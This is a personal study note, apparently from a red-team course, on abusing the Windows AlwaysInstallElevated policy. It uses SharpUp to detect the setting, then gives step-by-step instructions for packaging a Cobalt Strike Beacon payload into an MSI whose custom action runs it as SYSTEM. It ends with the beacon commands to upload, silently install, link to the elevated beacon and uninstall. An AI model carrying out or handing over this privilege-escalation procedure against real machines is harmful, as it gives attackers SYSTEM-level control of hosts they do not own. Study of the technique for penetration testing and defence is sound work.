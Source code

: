 ```yaml
---
creation date: September 23rd 2022
last modified date: September 23rd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Always Installed Elevated]]  
___

## Description:  
This policy allows standard users to install applications that require access to directories and registry keys that they may not usually have permission to change.

Use [SharpUp](https://github.com/GhostPack/SharpUp) to look for AlwaysInstalledElevated.

```
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe

=== AlwaysInstallElevated Registry Keys ===

  HKLM:    1
  HKCU:    1
```

To exploit this, we need to package a payload into an MSI installer that will be installed and executed with SYSTEM privileges.

-   Generate a new Windows EXE TCP payload and save it to **C:\Payloads\beacon-tcp.exe**.
-   Open **Visual Studio**, select **Create a new project** and type "installer" into the search box. Select the **Setup Wizard** project and click **Next**.
-   Give the project a name, like **BeaconInstaller**, use **C:\Payloads** for the location, select **place solution and project in the same directory**, and click **Create**.
-   Keep clicking **Next** until you get to step 3 of 4 (choose files to include). Click **Add** and select the Beacon payload you just generated. Then click **Finish**.
-   Highlight the **BeaconInstaller** project in the **Solution Explorer** and in the **Properties**, change **TargetPlatform** from **x86** to **x64**.
-   Right-click the project and select **View > Custom Actions**.
-   Right-click **Install** and select **Add Custom Action**.
-   Double-click on **Application Folder**, select your **beacon-tcp.exe** file and click **OK**. This will ensure that the beacon payload is executed as soon as the installer is run.
-   Under the **Custom Action Properties**, change **Run64Bit** to **True**.

Now build the project, which should produce an MSI at `C:\Payloads\BeaconInstaller\Debug\BeaconInstaller.msi`

```
beacon> cd C:\Temp
beacon> upload C:\Payloads\BeaconInstaller\Debug\BeaconInstaller.msi
beacon> run msiexec /i BeaconInstaller.msi /q /n
beacon> connect localhost 4444
[+] established link to child beacon: 10.10.17.231
```

To remove the MSI afterwards, you can use `msiexec /q /n /uninstall BeaconInstaller.msi` before removing the file.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 23rd 2022 (10:19 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
